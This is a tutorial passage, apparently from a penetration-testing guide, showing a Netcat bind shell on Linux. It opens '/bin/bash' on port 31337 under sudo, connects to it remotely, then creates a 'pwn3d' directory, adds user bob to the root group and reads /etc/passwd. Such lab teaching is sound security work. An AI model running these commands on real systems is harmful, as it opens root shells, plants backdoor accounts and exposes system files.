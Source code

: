 ## LINUX REMOTE SHELL
Obtaining a remote shell on a Linux machine is very similar to doing it on Windows. However, there are a couple of things that appear differently. First, when you connect to a Windows shell, you are presented with a user prompt that helps you to be oriented. However, on the Linux side you will see no such prompt. It takes a little bit of getting used to, but it should not affect the operations drastically. Secondly, I mentioned in the Installation section that Netcat runs under the context of the user that has launched the process. On my Linux Mint machine, my user account is not a root user. Therefore, in order to accomplish the same goals as the preceding Windows Feature, I need to make a concession and run Netcat through sudo. This will allow me to replicate the preceding features as closely as the prior feature to provide an apple-to-apple comparison. So, as mentioned earlier, we will perform the following steps:

## Preparing the listener
Like we did on the Windows side, to prepare the listener we will type the following command into the command line:
```
sudo nc –lp 31337 –e /bin/bash
```
As we see in the screenshot that follows, we are simply calling the /bin/bash shell on connection, which is equivalent to the Windows command prompt. However, unlike the Windows counterpart, the capital L switch means something completely different in GNU Netcat, and does not even exist in the original Unix Netcat.

![image](https://user-images.githubusercontent.com/47218880/68692621-6a215480-053b-11ea-87ae-96c4ee7d1752.png)

## Connecting to the target
As I have demonstrated in the previous exercise, you simply connect to the host (as shown below) and the port that you want to connect to, and the listener will serve up the bash shell for you as follows:
```
nc 192.168.0.11 31337
```

![image](https://user-images.githubusercontent.com/47218880/68692674-7c02f780-053b-11ea-8559-96ae7db7c152.png)


## Running a directory listing on the target
As mentioned in the preceding section, the Linux side does not provide the same level of feedback to let me know if I have a bash shell. However, by typing in ones in the shell, we see that we do return a listing of the directories and files on the remote system, as shown in the following screenshot:

![image](https://user-images.githubusercontent.com/47218880/68692711-8d4c0400-053b-11ea-99f6-4317e09604f7.png)


## Making a directory on the target
As demonstrated in the following screenshot, I created a directory called pwn3d using the mkdir command and the full command is mkdir pwn3d:

![image](https://user-images.githubusercontent.com/47218880/68692769-a654b500-053b-11ea-8d00-1eb730d9ecbd.png)


Verifying if the directory was created
After performing another ls command, as demonstrated in the following screenshot, we see that the directory, in fact, was created:

![image](https://user-images.githubusercontent.com/47218880/68692802-b4a2d100-053b-11ea-9c36-eaf63f034b5f.png)

Adding a local user and placing into the root group
Finally, we use the useradd command to add a local user to the system and grant the account bob access to the root group. This, once again, is demonstrated as follows:
```
useradd –g root bob
```

![image](https://user-images.githubusercontent.com/47218880/68692827-c5ebdd80-053b-11ea-934e-3558b12a61d3.png)

Next, we want to provide the verification of the useradd action, first by doing a simple grep over /etc/passwd, as shown in the next screenshot using the following command:
```
grep bob /etc/passwd
```
![image](https://user-images.githubusercontent.com/47218880/68692871-dc923480-053b-11ea-9bcf-a044a9796e80.png)


Lastly, we will dump the entire /etc/passwd file next using the following command:
```
tail /etc/passwd
```

![image](https://user-images.githubusercontent.com/47218880/68692912-ec117d80-053b-11ea-9998-72cf64892d88.png)







